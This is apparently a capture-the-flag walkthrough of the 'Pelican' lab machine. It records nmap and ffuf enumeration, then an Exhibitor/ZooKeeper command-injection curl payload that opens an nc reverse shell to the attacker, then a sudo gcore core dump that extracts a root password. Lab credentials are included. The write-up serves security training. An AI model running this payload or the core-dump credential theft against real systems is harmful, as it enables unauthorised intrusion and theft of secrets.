







Difficulty: Intermediate
Given “Pelican OS” credentials:
charles:SupportDucklingDivision574
Environment Setup
export IP=192.168.105.98
Service Enumeration
nmap -T4 -F $IP
PORT STATE SERVICE
22/tcp open ssh
139/tcp open netbios-ssn
445/tcp open microsoft-ds
631/tcp open ipp
8080/tcp open http-proxy
8081/tcp open blackice-icecap
nmap -sC -sV -T4 -Pn -p- -oA full_tcp $IP
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| 256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_ 256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp open ipp CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods:
|_ Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp open zookeeper Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| 256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_ 256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp open http Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp open http nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.105.98:8080/exhibitor/v1/ui/index.html
34051/tcp open java-rmi Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
| smb2-time:
| date: 2025-07-01T19:29:03
|_ start_date: N/A
| smb-os-discovery:
| OS: Windows 6.1 (Samba 4.9.5-Debian)
| Computer name: pelican
| NetBIOS computer name: PELICAN\x00
| Domain name: \x00
| FQDN: pelican
|_ System time: 2025-07-01T15:29:04-04:00
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
|_clock-skew: mean: 1h20m01s, deviation: 2h18m35s, median: 0s
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
Port 8080 - HTTP
http://192.168.105.98:8080/ shows 404, so we’ll start fuzzing to discover content:

ffuf -u $URL/FUZZ -w /usr/share/wordlists/dirb/common.txt
We find /application.wadl (Web Application Description Language).

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<application xmlns="http://wadl.dev.java.net/2009/02">
<doc xmlns:jersey="http://jersey.java.net/" jersey:generatedBy="Jersey: 1.9.1 09/14/2011 02:36 PM"/>
...This file gives us a wealth of information about the web service. By glancing through the file, I’m able to determine this is an instance of Apache ZooKeeper.
Returning to my more thorough nmap scan after it finished, I find that it pointed out http://192.168.105.98:8080/exhibitor/v1/ui/index.html.
Visiting this page, it’s an instance of Exhibitor for ZooKeeper, version 1.0

Initial Access
Found RCE vulnerability and an exploit: https://www.exploit-db.com/exploits/48654
It includes an example curl command but I ran into some difficulties using it, so I decided to re-create it myself. This can be done easily by opening this exploit’s instructions to open the Config page in Burp Suite and modify the javaEnvironment to an arbitrary command.

I created a minimal (as possible) curl command for this request (requires hardcoding <LHOST> and <LPORT>, since we can’t use environment variables directly within the quotes).
curl http://$IP:8080/exhibitor/v1/config/set -H 'Content-Type: Application/JSON' \
-d '{"zookeeperInstallDirectory":"/opt/zookeeper","zookeeperDataDirectory":"/zookeeper/data","zookeeperLogDirectory":"","logIndexDirectory":"","autoManageInstancesSettlingPeriodMs":"10000","autoManageInstancesFixedEnsembleSize":"0","autoManageInstancesApplyAllAtOnce":"1","observerThreshold":"3","serversSpec":"1:pelican","javaEnvironment":"$(/bin/nc -e /bin/sh <LHOST> <LPORT> &)","log4jProperties":"","clientPort":"2181","connectPort":"2888","electionPort":"3888","checkMs":"2000","cleanupPeriodMs":"200000","cleanupMaxFiles":"10","backupPeriodMs":"60000","backupMaxStoreMs":"86400000","autoManageInstances":"1","zooCfgExtra":{"syncLimit":"5","tickTime":"2000","initLimit":"10"},"backupExtra":{},"serverId":1}'
Create a listener and run the curl command to receive a reverse shell:
nc -lnvp $LPORT
chmod +x ./curl.sh && ./curl.sh

Privilege Escalation
I’ll upgrade to an interactive shell and find the local flag in /home/charles/local.txt:

Starting with manual enumeration, sudo -l reveals that we can run gcore without a password. This is unusual and worth looking up:
- https://gtfobins.github.io/gtfobins/gcore/
- https://wiki.sentnl.io/security/hacking-demos/getting-passwords-of-logged-in-users
Following the second link from sentnl.io, I was able to obtain the root user’s password by creating a core dump of the associated process.
ps -ef | grep ssh
root 535 1 0 20:46 ? 00:00:00 /usr/sbin/sshd -D
charles 7180 3066 0 21:08 pts/0 00:00:00 grep ssh
sudo gcore 535
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
0x00007f2f02602ff7 in __GI___select (nfds=5, readfds=0x564567abff10, writefds=0x0, exceptfds=0x0, timeout=0x0) at ../sysdeps/unix/sysv/linux/sel
ect.c:41
41 ../sysdeps/unix/sysv/linux/select.c: No such file or directory.
warning: target file /proc/535/cmdline contained unexpected null characters
Saved corefile core.535
[Inferior 1 (process 535) detached]
strings core.535 doesn’t reveal anything obvious, and grepping for “sudo” as in the guide doesn’t do any good because the root user wouldn’t need to use sudo.
Looking through processes running as root (ps -aux | grep root) I noticed an interesting entry: password-store with PID 494.
On line 476 of this process’ core dump, there is a password:

ClogKingpinInning731
We can su root and enter this password to gain root access and find the flag at /root/proof.txt.